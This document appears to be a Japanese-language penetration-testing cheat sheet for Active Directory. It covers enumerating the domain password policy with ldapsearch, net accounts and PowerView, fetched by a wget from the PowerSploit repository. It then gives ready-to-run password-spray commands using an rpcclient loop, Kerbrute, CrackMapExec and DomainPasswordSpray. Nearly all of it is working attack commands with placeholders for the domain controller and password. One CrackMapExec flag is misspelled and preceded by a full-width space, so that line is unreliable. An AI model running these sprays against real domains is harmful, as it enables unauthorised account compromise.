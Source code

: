 ## パスワードポリシーの列挙
### ldapsearch
LDAP経由でドメインのパスワードポリシー（最小長、履歴数など）の取得
```shell
ldapsearch -h <DC_IP> -x -b "DC=DOMAIN,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
```
### net.exe
Windowsコマンドで、ローカルまたはドメインのパスワードポリシーやアカウント情報の表示
```shell
net accounts
```

### PowerView

PowerViewはこいつしか信用するな
```sh
wget https://github.com/PowerShellMafia/PowerSploit/raw/refs/heads/dev/Recon/PowerView.ps1
```


PowerShellベースのツールで、Active Directoryのドメインポリシー情報の取得
```powershell
Get-DomainPolicy
```

## パスワードスプレー攻撃
### rpcclient
少数の共通パスワードを多数のユーザーアカウントに対して試行
```shell
for u in $(cat valid_users.txt);do rpcclient -U "$u%<PASSWORD_TO_SPRAY>" -c "getusername;quit" <DC_IP> | grep Authority; done
```
### Kerbrute
Kerberos認証を利用して、ユーザーリストに対し単一のパスワードを試行
```shell
kerbrute passwordspray -d <DOMAIN_NAME> --dc <DC_IP> valid_users.txt '<PASSWORD_TO_SPRAY>'
```
### CrackMapExec
SMBプロトコル経由で、ユーザーリストに対し単一のパスワードを試行し、成功したアカウントを特定
```shell
crackmapexec smb <DC_IP> -u valid_users.txt -p '<PASSWORD_TO_SPRAY>'　--continue-on-successo
```
### DomainPasswordSpray
PowerShellスクリプトで、ドメインユーザーに対してパスワードスプレー攻撃を実行
```powershell
. .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password '<PASSWORD_TO_SPRAY>' -OutFile spray_success -ErrorAction SilentlyContinue
```

